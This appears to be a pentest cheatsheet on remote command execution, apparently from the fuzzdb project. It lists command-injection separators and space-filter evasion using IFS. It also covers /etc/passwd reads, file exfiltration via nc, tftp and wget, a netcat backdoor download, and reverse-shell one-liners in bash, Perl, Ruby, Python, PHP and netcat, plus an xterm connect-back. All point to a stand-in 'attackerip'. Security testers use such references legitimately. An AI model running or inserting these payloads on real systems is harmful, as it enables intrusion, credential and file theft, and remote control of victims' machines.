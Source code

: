 Remote Command Exec Cheatsheet

**Executing Commands**

Various ways of separating Commands:<br>
``` blah;blah2 ```

``` blah ^ blah 2```

```blah && blah2```

```FAIL || X```

``` blah%0Dblah2%0Dblah3 ```

``` `blah` ```

``` `blah & blah2` ```

**Shell commands without spaces**

Using Internal Field Separator (IFS):<br>
Test for cmd injection without spaces:<br>
``` sleep${IFS:0:1}20 ```<br>

Example IFS netcat backdoor without spaces:<br>
``` {wget,http://attackerip/nc} ```<br>
``` {chmod,+x,./nc} ```<br>
``` {./nc,-l,-p,1234,-e,/bin/bash} ```<br>

$IFS shell variable:<br>
``` cat$IFS/etc/passwd ```<br>
increment the first +1 to retreive the entire file, line by line<br>
``` cat$IFS/etc/passwd|tail$IFS-n+1|head$IFS-n+1 ```

Shell Variables:<br>
``` CMD=$'cat\x20/etc/passwd';$CMD ```

shell variable, increment through file one line at a time: <br>
increment the first +1 to retreive the entire file, line by line<br>
``` SP=$'\x20';cat$SP/etc/passwd|tail$SP-n+1|head$SP-n+1 ```

**Exfiltrating Files / Data**

FTP <br>
Make a new text file, and echo and then redirect to FTP

NC <br>
``` 'nc -e /bin/sh' ```

NC <br>
``` 'echo /etc/passwd  | nc host port' ```

TFTP <br>
``` 'echo put /etc/passwd | tftp host' ```

WGET: <br>
``` 'wget --post-file /etc/passwd' ```

**One-Liner Reverse Shells**

On the listener <br>
``` $ nc -l -p 1234 -vvv' ```

On the remote host...<br>
<br>
Bash:<br>
``` $ bash -i >& /dev/tcp/attackerip/1234 0>&1 ```

``` $ exec 5<>/dev/tcp/attackerip/1234 ```<br>
``` $ cat <&5 | while read line; do $line 2>&5 >&5; done ```

Perl<br>
```$ perl -e 'use Socket;$i="attackerip";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ```

Perl for Windows target
``` perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' ```

Ruby<br>
``` $ ruby -rsocket -e'f=TCPSocket.open("attackerip",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' ```

Python<br>
``` $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ```

PHP<br>
``` $ php -r '$sock=fsockopen("attackerip",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ```
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)

Netcat<br>
``` $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip 1234 >/tmp/f ```

Bash<br>
``` bash -i >& /dev/tcp/attackerip/1234 0>&1 ```


**XTERM**<br>
 To catch incoming xterm, start an open X Server on your system (:1 - which listens on TCP port 6001) with [Xnest](http://www.xfree86.org/4.4.0/Xnest.1.html):<br>
<br>
``` Xnest :1 ```
<br>
Authorize the target IP's connection to you:<br>
<br>
Run this OUTSIDE the Xnest:
``` xterm -display 127.0.0.1:1 ``` 

Run this INSIDE the spawned xterm on the open X Server
``` xhost +targetip ```

Then on the target, assuming that xterm is installed, connect back to the open X Server on your system:
``` xterm -display attackerip:1 ```
<br>or<br>
``` DISPLAY=attackerip:0 xterm ```
It will try to connect back to you, attackerip, on TCP port 6001.<br>

If the xterm path is not within the PATH environment variable, you need to specify its filepath. Solaris path example:<br>
``` /usr/openwin/bin/xterm -display attackerip:1 ```



<br>More docs: [/docs/attack-docs/remote-cmd-exfiltration/](https://github.com/fuzzdb-project/fuzzdb/tree/master/docs/attack-docs/remote-cmd-exfiltration)<br>
